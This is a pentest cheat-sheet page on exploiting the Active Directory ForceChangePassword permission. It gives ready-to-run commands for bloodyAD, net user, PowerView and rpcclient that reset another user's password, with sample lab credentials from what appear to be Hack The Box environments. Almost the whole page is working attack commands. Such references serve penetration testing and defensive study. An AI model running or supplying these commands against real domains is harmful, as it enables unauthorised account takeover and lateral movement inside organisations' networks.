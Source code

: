 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ForceChangePassword

## Exploitation

<figure><img src="../../../.gitbook/assets/forcechangepassword_bh.png" alt=""><figcaption><p>Figure 1: User wley has ForceChangePassword rights over user damundsen.</p></figcaption></figure>

{% tabs %}
{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
# Plaintext credentials
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb set password winrm_svc 'Password123!'

# NTLM hash
bloodyAD -d domain.local -u user -p ':hash' --host 10.10.10.10 set password <target_user> <pass>
```
{% endcode %}
{% endtab %}

{% tab title="Native" %}
```powershell
net user <user> <pass> /domain
```
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
# Create a PSCredential object for the current user
$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)

# Set the password for the target user
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# Import powerview
Import-Module .\PowerView.ps1

# Change the user's password
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
{% endcode %}
{% endtab %}

{% tab title="RPC" %}
```bash
rpcclient -U <USER> <IP>
> setuserinfo2 <USER> 23 'ComplexP4ssw0rd!'
# OR
> chgpasswd3 <USER> <OLDPASS> <NEWPASS>
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#forcechangepassword" %}
{% endtab %}
{% endtabs %}

